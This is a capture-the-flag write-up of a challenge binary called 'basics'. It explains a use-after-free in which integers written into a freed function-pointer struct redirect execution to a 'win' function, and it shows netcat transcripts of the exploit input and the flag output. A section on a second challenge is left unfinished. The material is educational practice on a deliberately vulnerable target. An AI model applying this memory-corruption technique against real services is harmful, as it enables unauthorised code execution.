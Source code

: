 ## Exploitation

Only basics was solved by our team.

### Basics ###

Back to basics.  (See what I did there? `;)`)

`basics` is an ELF executable that listens on port 2222 and forks for each connection.  Here is a sample interaction:

```
aucg@aucg-hplm:~% nc <redacted> 2222
Creating the function pointer struct...
Doing something with the function pointer struct...
Freeing the function pointer struct...
Creating the integer struct...
Enter 3 integers, separated by newlines:
> 233
>
>
Those integers are: 233, 0, 0,
Freeing the integer struct...
Doing something with the (now free'd) function pointer struct...
```

From this interaction, it may become apparent that there is something shifty going on with the two `struct`s.  At this point, it may be useful to decompile or debug the binary.

Upon inspecting the symbols in the provided ELF binary, you would notice a symbol named `win` at offset address `0x08048953`.  This is a function that needs to be run in order to get the flag.  Converted to decimal, this address is `134515027`.

Hmm. What happens if we paste this address as the inputs?

Turns out, the integer struct uses the same memory space as the freed function pointer `struct`.  The program then attempts to call the function at the function pointer (which has now been overwritten by our address).

So assuming we pasted in the address thrice (as we're supposed to):

```
aucg@aucg-hplm:~% nc <redacted> 2222
Creating the function pointer struct...
Doing something with the function pointer struct...
Freeing the function pointer struct...
Creating the integer struct...
Enter 3 integers, separated by newlines:
> 134515027
> 134515027
> 134515027
Those integers are: 134515027, 134515027, 134515027,
Freeing the integer struct...
Doing something with the (now free'd) function pointer struct...
Congratulations! The key is: 1BV<redacted>XMh
```

### pie

TODO: Something about a buffer overflow.  Ask @cyphar.
